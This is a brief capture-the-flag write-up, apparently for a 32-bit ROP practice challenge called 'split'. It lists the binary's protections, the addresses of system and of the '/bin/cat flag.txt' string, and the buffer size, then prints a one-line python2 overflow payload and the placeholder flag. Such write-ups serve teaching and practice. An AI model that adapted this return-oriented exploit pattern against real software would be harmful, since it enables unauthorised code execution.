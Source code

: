 # Contents
- Task Description
- 32 bit

## Task Description
The elements that allowed you to complete ret2win are still present, they've just been split apart.  
Find them and recombine them using a short ROP chain.

## 32 bit
File Checks
32 bit ELF with no canaries
To get the flag we need to create a chain where it first calls system and then /bin/cat flag.txt
/bin/cat flag.txt has a memory addr of 0x804a030
and for the system call it is 0x0804861a
The buffer size is 44 bytes

Generate the payload
```bash
python2 -c 'print "A"*44 +"\x1a\x86\x04\x08"+"\x30\xa0\x04\x08"' > payload
```

Then pass it in and get the flag
```flag
ROPE{a_placeholder_32byte_flag!}
```


---
Creation date: 11-10-2022

Last modified date: Tuesday 11th October 2022
***
